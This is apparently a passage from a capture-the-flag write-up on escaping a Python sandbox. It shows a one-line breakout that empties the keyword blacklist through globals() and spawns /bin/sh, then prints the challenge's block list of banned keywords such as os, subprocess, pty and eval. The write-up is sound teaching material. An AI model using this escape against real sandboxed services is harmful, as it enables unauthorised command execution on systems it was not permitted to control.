 ```python
EduPy 3.8.2
>>> globals()['blacklist'].BLACKLIST = []
>>> import os; os.system('/bin/sh')
ls
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
```
Just for fun, lets check out the blacklist:
```python
cat blacklist.py
"""
blacklist.py

    Module that is seperated and kept secret, as it contains all the banned keywords
    that cannot be executed in the sandbox.
"""

# an incredibly restrictive blacklist. Player should craft a numpy escape.
BLACKLIST = [
    "__builtins__",
    "__import__",
    "eval",
    "exec",
    "import",
    "from",
    "os",
    "sys",
    "system",
    "timeit",
    "base64"
    "commands",
    "subprocess",
    "pty",
    "platform",
    "open",
    "read",
    "write",
    "dir",
    "type",
]

# a less restrictive blacklist for the 2nd sandbox. Player can use any other payload to read the flag.txt on server.
BLACKLIST2 = [
    "eval",
    "exec",
    "import",
    "from",
    "timeit",
    "base64"
    "commands",
    "subprocess",
    "pty",
    "platform",
    "write",
    "dir",
    "type",
]
```
`"Player should craft a numpy escape."` whoops ¯\\\_(ツ)\_/¯
